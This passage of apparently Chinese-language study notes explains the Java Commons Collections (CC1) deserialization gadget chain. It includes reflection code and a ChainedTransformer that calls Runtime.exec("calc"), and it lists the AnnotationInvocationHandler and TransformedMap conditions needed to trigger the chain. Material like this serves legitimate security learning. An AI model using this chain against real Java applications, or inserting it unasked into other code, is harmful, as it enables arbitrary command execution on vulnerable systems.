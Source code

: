    ```java
   //首先需要获得Runtime类的Class实例
   Class clz = Class.forName("java.lang.Runtime");
   //获得Runtime类的getRuntime方法
   Method getruntime = clz.getMethod("getRuntime");
   
   //调用该方法获得Runtime对象
   Object runtime = getruntime.invoke(clz);
   //获得Runtime类的exec方法
   Method exec = clz.getMethod("exec",String.class);
   //调用exec方法执行命令
   exec.invoke(runtime,"calc");
   
   
   Transformer[] transformers = new Transformer[]{
                   new ConstantTransformer(Runtime.class),
                   new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                   new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                   new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}),
   
           };
           Transformer transformerChain = new ChainedTransformer(transformers);
   ```

2. if条件

   > 这部分是注解的知识

   ![image-20230923190120874](../images/image-20230923190120874.png)

   > 1. sun.reflect.annotation.AnnotationInvocationHandler 构造函数的第一个参数必须是 Annotation的子类，且其中必须含有至少一个方法,方法名为value
   >
   >    ```java
   >    Object o = annotationInvocationdhlConstructor.newInstance(Target.class, transformedMap);
   >    ```
   >
   > 2. 被 TransformedMap.decorate 修饰的Map中必须有一个键名为value的元素
   >
   >    ```java
   >    map.put("value","xxx");
   >    ```
   >
   >    ![image-20230923190034704](../images/image-20230923190034704.png)

3. 类不可控

   ![image-20230923190148131](../images/image-20230923190148131.png)

   需要控制setvalue的参数为Runtime对象

   ```java
   new ConstantTransformer(Runtime.class) //输入啥对象返回啥对象
   ```

